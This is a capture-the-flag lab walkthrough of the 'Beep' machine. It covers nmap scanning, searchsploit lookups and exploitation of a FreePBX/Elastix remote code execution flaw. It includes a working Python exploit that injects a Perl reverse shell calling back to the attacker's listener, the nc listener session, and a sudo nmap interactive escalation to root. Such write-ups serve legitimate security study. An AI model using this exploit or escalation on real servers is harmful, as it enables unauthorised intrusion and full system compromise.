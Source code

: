 # Beep

As always, I start by running nmap.

While using my default parametres -sV and -sC, I did not get any response.

So I tried -A which enables OS detection, version, detection, script scanning, and traceroute.
And I also added -v which increases verbosity. Essentially just gives more details.

```
kali@kali:~/htb/Beep$ sudo nmap -A -v 10.129.84.71
...
...
...
Discovered open port 995/tcp on 10.129.84.71
Discovered open port 25/tcp on 10.129.84.71
Discovered open port 22/tcp on 10.129.84.71
Discovered open port 443/tcp on 10.129.84.71
Discovered open port 111/tcp on 10.129.84.71
Discovered open port 110/tcp on 10.129.84.71
Discovered open port 3306/tcp on 10.129.84.71
Discovered open port 993/tcp on 10.129.84.71
Discovered open port 80/tcp on 10.129.84.71
Discovered open port 143/tcp on 10.129.84.71
Discovered open port 10000/tcp on 10.129.84.71
Discovered open port 4445/tcp on 10.129.84.71
```
We discover some interesting ports. 80 and 443 signals a website. So lets go check that out.

In order to gain access to the webpage, I need to enable TLS 1.0 on my browser.

After doing that though, we are greeted with a login-page. Powered by Elastix.

![](images/1.png)

I try to input some common credentials like admin/admin. Not only to see if I can get lucky, but also to see if there are some error messages for username and password that can be used with Hydra to crack it.

Nothing whatsoever. So I throw on dirbuster, and start checking manually. The first thing I try is /admin. And I get greeted by a popup login window.

![](images/2.png)

I try a couple credentials again, before cancelling the popup.

This redirects me to https://10.129.84.71/admin/config.php

![](images/3.png)

This also gives us a backend version. freepbx 2.8.1.4 

So lets throw both of these into searchsploit to see if we find something useful.

```
kali@kali:~/htb/Beep$ searchsploit Elastix
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                        | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities      | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilitie | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion             | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                            | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                           | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution       | php/webapps/18650.py
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
kali@kali:~/htb/Beep$ searchsploit freepbx 2.8.1.4 
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
FreePBX < 13.0.188 - Remote Command Execution (Metasploit)   | php/remote/40434.rb
Freepbx < 2.11.1.5 - Remote Code Execution                   | php/webapps/41005.txt
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

That FreePBX / Elastix RCE looks very likely. Although the FreePBX version is listed as 2.10.0, lets open it up and see what we can find.

The version is specified as: `Version: FreePBX 2.10.0/ 2.9.0, Elastix 2.2.0, possibly others.`

So our versions might match.


```
import urllib
rhost="10.129.84.71" # Target address
lhost="10.10.14.21"  # Our listening address
lport=443
extension="1000"

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url)
```


What is happening here?

There is an unsanitized parameter in the recordings/misc/callme_page.php page. And this parameter ends up in the Asterisk Management Interface socket. The payload is eventually executed on the VOIP server.

So I run the code:

```
IOError: [Errno socket error] [SSL: UNSUPPORTED_PROTOCOL] unsupported protocol (_ssl.c:727)
```

Hmm. I did have to enable TLS 1.0 earlier, maybe I need to do some additional configuring in the connection.

```
import urllib.request
import ssl

rhost="10.129.84.71" # Target address
lhost="10.10.14.21"  # Our listening address
lport=443
extension=233

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.request.urlopen(url, context=ssl.SSLContext(ssl.PROTOCOL_TLSv1))
```

This one did the trick. I made sure the connection used TLS 1.0. In addition I had to change the extension. It used to be 1000.


```
kali@kali:~$ sudo rlwrap nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.129.84.71 53861
id
uid=100(asterisk) gid=101(asterisk)
```

We set the listener, and we are in. Our user is asterisk. In the exploit page, it explicitly states that we can exploit an nmap vulnerability to gain root. So lets try that.

```
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
